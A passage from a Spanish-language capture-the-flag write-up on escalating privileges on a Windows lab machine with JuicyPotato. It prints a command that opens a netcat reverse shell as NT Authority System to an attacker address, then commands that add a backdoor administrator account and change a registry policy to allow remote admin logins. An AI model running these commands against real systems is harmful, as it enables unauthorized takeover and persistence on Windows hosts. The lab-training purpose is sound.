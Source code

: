 Ya con esto probamos lo siguiente, nos ponemos en escucha en nuestro equipo y ejecutamos el JuicyPotato de la siguiente manera, (Depende el SO ante el que estemos, si da algun error deberemos buscar el CLSID adecuado en el mismo repo [CLISD](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md) buscar la version y seleccionar uno que ejecute NT Authority System). En este caso funciona con el que lanza por defecto.

```bash
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd 192.168.179.139 4444"
```

Observamos que obtenemos la conexion sin problemas como NT Authority Systerm

![ntAuth.png](/assets/images/thl-writeup-chimichurri/ntAuth.png)

Solo que si tratamos de ver las flags no nos deja ya que debemos ser Usuario admin del dominio para poder verlas.  ya siendo NT Authority System podemos realizar los pasos de abajo sin usar JuicyPotato.

Creación del usuario y agregarlo al grupo administradores.

```bash
#Creacion del usuario
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user ewor01 pass123! /add"

#Agregar al grupo Administradores
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administradores ewor01 /add"

#Para que en crackmapexec por smb nos ponga pwned y poder hacer de todo con ese usuario, hay que retocar el siguiente registro
.\JuicyPotato.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"

```

![useradd.png](/assets/images/thl-writeup-chimichurri/useradd.png)

Al ejecutar los primeros 2 y verificar con netexec vemos que nos pone un +, si queremos que nos coloque Pwn3d! debemos retocar un registro para el cual es el tercer comando y tener capacidad de conectarnos como usuario privilegiado con el usuario que acabamos de agregar.
